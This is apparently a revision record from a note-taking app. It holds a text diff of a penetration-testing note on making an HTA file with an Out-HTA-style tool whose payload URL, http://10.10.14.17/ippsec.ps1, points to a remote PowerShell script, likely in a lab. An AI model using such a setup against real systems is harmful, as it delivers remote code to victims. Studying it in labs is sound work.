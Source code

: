 id: 938d0bdea14a42d99d9775aea08dc26b
parent_id: 58e44b251dd143dd951d03b20db68b64
item_type: 1
item_id: 85f863ac1b834cae82575a30d4170a3a
item_updated_time: 1642566069728
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"hta \"],[-1,\"format\"],[1,\"extension file\"],[0,\"\\\n\\\n> \"]],\"start1\":297,\"start2\":297,\"length1\":14,\"length2\":22},{\"diffs\":[[0,\"wsh\\\n> \\\n>\"],[1,\" .\"],[0,\" ./Out-H\"]],\"start1\":370,\"start2\":370,\"length1\":16,\"length2\":18},{\"diffs\":[[0,\"load\"],[-1,\"Script\"],[1,\"URL http://10.10.14.17/ippsec.ps1\"]],\"start1\":412,\"start2\":412,\"length1\":10,\"length2\":37}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-01-19T04:25:38.190Z
created_time: 2022-01-19T04:25:38.190Z
type_: 13